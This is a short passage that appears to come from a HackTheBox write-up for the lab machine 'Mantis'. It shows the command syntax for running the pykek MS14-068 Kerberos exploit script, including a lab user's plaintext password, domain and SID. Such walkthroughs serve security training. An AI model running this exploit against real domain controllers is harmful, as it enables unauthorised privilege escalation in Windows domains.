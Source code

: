 ![pykek-dl](/images/hackthebox-writeups/mantis/pykek-dl.png)

Now that we have pykek downloaded, the command syntax is as follows:
{% highlight bash linenos %}
python ms14-068.py -u james@htb.local -d mantis.htb.local -p "J@m3s_P@ssW0rd!" -s S-1-5-21-4220043660-4019079961-2895681657
{% endhighlight %}
